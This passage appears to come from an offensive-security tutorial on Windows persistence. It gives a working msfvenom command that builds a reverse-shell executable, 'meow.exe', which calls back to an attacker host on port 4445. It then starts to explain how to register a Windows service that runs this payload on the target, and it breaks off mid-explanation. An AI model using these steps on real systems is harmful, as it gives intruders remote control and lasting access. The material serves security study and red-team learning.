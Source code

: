 First of all create reverse shell `exe` file via `msfvenom` from my attacker machine:    

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
LHOST=192.168.56.1 LPORT=4445 -f exe > meow.exe
```

![pers](./images/54/2022-05-09_16-53.png){width="80%"}    

![pers](./images/54/2022-05-10_17-17.png){width="80%"}    

Then, create service which run my `meow.exe` in the target machine.

The minimum requirements for a service are the following:
- A Main Entry point (like any application)    
- A Service Entry point    
- A Service Control Handler    

In the main entry point, you rapidly invoke `StartServiceCtrlDispatcher` so the `SCM` may call your Service Entry point (`ServiceMain`):

